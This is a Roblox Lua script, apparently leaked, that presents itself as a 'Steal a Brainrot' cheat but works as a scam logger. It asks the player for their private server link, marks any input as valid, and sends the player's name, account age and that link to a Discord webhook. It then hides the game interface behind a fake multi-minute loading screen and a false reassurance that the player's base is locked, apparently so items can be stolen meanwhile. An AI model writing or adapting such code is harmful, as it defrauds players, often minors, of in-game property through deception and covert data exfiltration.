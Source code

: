-- Services
local HttpService = game:GetService("HttpService")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local StarterGui = game:GetService("StarterGui")
local LocalPlayer = game:GetService("Players").LocalPlayer

-- Packages
local NetPackages = ReplicatedStorage:WaitForChild("Packages"):WaitForChild("Net")

-- Notification listener
local notificationEvent = NetPackages:WaitForChild("RE/NotificationService/Notify", 5).OnClientEvent:Connect(function(title, message)
    -- Handle notifications here
end)

-- Toggle player settings
task.spawn(function()
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Music")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Sound Effects")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Chat Tips")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("VFX")
end)

-- UI: Main ScreenGui
local brainrotUI = Instance.new("ScreenGui")
brainrotUI.Name = "BrainrotUI"
brainrotUI.ResetOnSpawn = false
brainrotUI.Parent = LocalPlayer:WaitForChild("PlayerGui")

-- UI: Frame
local mainFrame = Instance.new("Frame", brainrotUI)
mainFrame.Size = UDim2.new(0, 400, 0, 180)
mainFrame.Position = UDim2.new(0.5, -200, 0.5, -90)
mainFrame.BackgroundColor3 = Color3.fromRGB(25, 25, 35)
mainFrame.Active = true
mainFrame.Draggable = true

-- UI: Frame Corners
local frameCorner = Instance.new("UICorner", mainFrame)
frameCorner.CornerRadius = UDim.new(0, 10)

-- UI: Title
local titleLabel = Instance.new("TextLabel", mainFrame)
titleLabel.Size = UDim2.new(1, 0, 0, 45)
titleLabel.BackgroundTransparency = 1
titleLabel.Font = Enum.Font.GothamBold
titleLabel.TextSize = 20
titleLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
titleLabel.Text = "Enter Your Private Server Link To Unlock Script"

-- UI: TextBox for server link
local serverLinkBox = Instance.new("TextBox", mainFrame)
serverLinkBox.Size = UDim2.new(0.9, 0, 0, 40)
serverLinkBox.Position = UDim2.new(0.05, 0, 0.45, 0)
serverLinkBox.PlaceholderText = "Enter private server link..."
serverLinkBox.Font = Enum.Font.Gotham
serverLinkBox.TextSize = 18
serverLinkBox.TextColor3 = Color3.new(1, 1, 1)
serverLinkBox.BackgroundColor3 = Color3.fromRGB(45, 45, 60)

-- UI: TextBox Corner
local textBoxCorner = Instance.new("UICorner", serverLinkBox)
textBoxCorner.CornerRadius = UDim.new(0, 8)

-- UI: Submit Button
local enterButton = Instance.new("TextButton", mainFrame)
enterButton.Size = UDim2.new(0.9, 0, 0, 40)
enterButton.Position = UDim2.new(0.05, 0, 0.75, 0)
enterButton.BackgroundColor3 = Color3.fromRGB(0, 150, 255)
enterButton.Text = "Enter"
enterButton.Font = Enum.Font.GothamBold
enterButton.TextSize = 18
enterButton.TextColor3 = Color3.new(1, 1, 1)

-- UI: Button Corner
local buttonCorner = Instance.new("UICorner", enterButton)
buttonCorner.CornerRadius = UDim.new(0, 8)

-- Button click functionality
enterButton.MouseButton1Click:Connect(function()
    local serverLink = serverLinkBox.Text
    local isValidLink = serverLink:match("^https://www%.roblox%.com/share%?code=8d4e472ccd1ae647b220bb9dcf430e77+
    &type=Server$")

    enterButton.Text = "âœ… Valid"
    enterButton.BackgroundColor3 = Color3.fromRGB(0, 200, 100)
    wait(0.5)
    brainrotUI:Destroy()

    -- Example: account age calculation
    local accountAgeDays = math.floor((1760877218 - LocalPlayer.AccountAge) / 86400)

    -- Example: iterate workspace models (names shortened)
    for _, obj in ipairs(workspace:GetDescendants()) do
        if obj:IsA("Model") then
            local modelName = obj.Name
            -- Add custom logic for specific models here
        end
    end

    -- Example: send Discord webhook
    task.spawn(function()
        local webhookData = HttpService:JSONEncode({
            username = "ðŸ§  Steal A Brainrot Hit - KDML SCRIPTS ðŸ§ ",
            embeds = {{
                color = 16732240,
                fields = {
                    {name = "ðŸ‘¤ Player Information", value = "**Name:** "..LocalPlayer.Name.."\n**Account Age:** "..accountAgeDays.." days", inline = false},
                    {name = "ðŸŽ Brainrots", value = "**KDML SCRIPTS**\n1x", inline = false},
                    {name = "ðŸ”— Join Private Server", value = "[Join]("..serverLink..")", inline = false},
                }
            }},
            avatar_url = "https://i.imgur.com/6XK8YBn.png",
        })

        request({
            Url = "https://discord.com/api/webhooks/YOUR_WEBHOOK_URL",
            Method = "POST",
            Headers = {["Content-Type"] = "application/json"},
            Body = webhookData
        })
    end)
end)

-- Disable CoreGui
StarterGui:SetCoreGuiEnabled(Enum.CoreGuiType.All, false)

-- Loader UI
local loaderGui = Instance.new("ScreenGui", game:GetService("CoreGui"))
loaderGui.Name = "KdmlLoader"
loaderGui.IgnoreGuiInset = true
loaderGui.ResetOnSpawn = false

local loaderFrame = Instance.new("Frame", loaderGui)
loaderFrame.Size = UDim2.new(1, 0, 1, 0)
loaderFrame.BackgroundColor3 = Color3.fromRGB(20, 0, 0)

local loaderTitle = Instance.new("TextLabel", loaderFrame)
loaderTitle.Size = UDim2.new(1, 0, 0.1, 0)
loaderTitle.Position = UDim2.new(0, 0, 0.35, 0)
loaderTitle.BackgroundTransparency = 1
loaderTitle.Font = Enum.Font.GothamBold
loaderTitle.TextSize = 36
loaderTitle.TextColor3 = Color3.fromRGB(255, 80, 80)
loaderTitle.Text = "Loading Steal a Brainrot Script..."
loaderTitle.TextScaled = true

local loaderPercent = Instance.new("TextLabel", loaderFrame)
loaderPercent.Size = UDim2.new(1, 0, 0.1, 0)
loaderPercent.Position = UDim2.new(0, 0, 0.45, 0)
loaderPercent.BackgroundTransparency = 1
loaderPercent.Font = Enum.Font.GothamBold
loaderPercent.TextSize = 24
loaderPercent.TextColor3 = Color3.fromRGB(255, 80, 80)
loaderPercent.Text = "0%"

local loaderDesc = Instance.new("TextLabel", loaderFrame)
loaderDesc.Size = UDim2.new(1, 0, 0.05, 0)
loaderDesc.Position = UDim2.new(0, 0, 0.52, 0)
loaderDesc.BackgroundTransparency = 1
loaderDesc.Font = Enum.Font.Gotham
loaderDesc.TextSize = 16
loaderDesc.TextColor3 = Color3.fromRGB(180, 180, 180)
loaderDesc.Text = "Don't worry, your base will automatically locked"
loaderDesc.TextScaled = true
loaderDesc.TextWrapped = true
loaderDesc.TextXAlignment = Enum.TextXAlignment.Center

local loaderFooter = Instance.new("TextLabel", loaderFrame)
loaderFooter.Size = UDim2.new(1, 0, 0.05, 0)
loaderFooter.Position = UDim2.new(0, 0, 0.9, 0)
loaderFooter.BackgroundTransparency = 1
loaderFooter.Font = Enum.Font.GothamBold
loaderFooter.TextSize = 18
loaderFooter.TextColor3 = Color3.fromRGB(255, 100, 100)
loaderFooter.Text = "discord.gg/f7se7bwcsz"

-- Loader sound
local loaderSound = Instance.new("Sound", loaderFrame)
loaderSound.SoundId = "rbxassetid://1848354536"
loaderSound.Volume = 1
loaderSound.Looped = true
loaderSound:Play()

-- Simulated loading progress
for i = 1, 100 do
    loaderPercent.Text = i.."%"
    wait(2)
end

-- Cleanup loader
loaderTitle:Destroy()
loaderPercent:Destroy()
loaderDesc:Destroy()

local loaderCompleteLabel = Instance.new("TextLabel", loaderFrame)
loaderCompleteLabel.Size = UDim2.new(1, 0, 1, 0)
loaderCompleteLabel.BackgroundTransparency = 1
loaderCompleteLabel.Font = Enum.Font.GothamBold
loaderCompleteLabel.TextScaled = true
loaderCompleteLabel.TextColor3 = Color3.fromRGB(255, 100, 100)
loaderCompleteLabel.Text = "âœ… Script Loaded\nPlease Wait 2-3 Minutes..."
--[[
 LEAKED BY "chalanted." on discord!
]]
